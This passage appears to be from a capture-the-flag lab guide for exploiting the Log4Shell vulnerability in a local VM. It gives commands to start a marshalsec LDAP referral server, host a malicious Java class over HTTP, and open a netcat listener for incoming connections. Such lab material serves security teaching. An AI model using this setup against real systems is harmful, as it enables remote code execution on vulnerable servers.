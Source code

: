 
<span style="font-weight: bold">1. Run the LDAP Server:</span> \
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”:  
```bash
  cd ~Desktop/log4shell/target
```
Next, start the LDAP server by running:
```bash 
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:4242/#Exploit"
```
You can get the ip address of the vm by running the block below in a terminal
```bash 
  ip addr show
``` 
This outputs the vm’s \<IP:PORT\>
```bash 
  127.0.0.1:4242
```
**It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct.**
You should see the following output:
![alt text](/images/ldapoutput.PNG) 
  
<span style="font-weight: bold">2. Run the Malicious Server:</span> \
Open a new terminal and make sure the active directory is the directory that contains your malicious .class file. For simplicity, we have created “Desktop/log4shell/{flag_no}” for you to work in. <span style="font-weight: bold">Do not leave this directory</span>. Run the server in “Desktop/log4shell/{flag_no}” by the following command:
```bash 
  python3 -m http.server 4242 
``` 
**It is very important that this matches the port specified in the LDAP server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct**
You should see the following output:
![alt text](/images/pythonserveroutput.PNG) 
  
<span style="font-weight: bold">3. Read data that is flowing on the network (This step is required for Flag 2 but is optional for the rest):</span> \
Open a terminal and run:
```bash 
  nc -nlvp <your_desired_port> 
``` 
You should see the following output:
![alt text](/images/nlvp.PNG)

---
  
  
<div style="text-align:center">
  <span id="intro" style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">INTRO</span>
</div>
Now that we are set up, let's do a quick rundown of Log4j, how it works at a high level, and test that we are able to successfully call and exploit the application. 
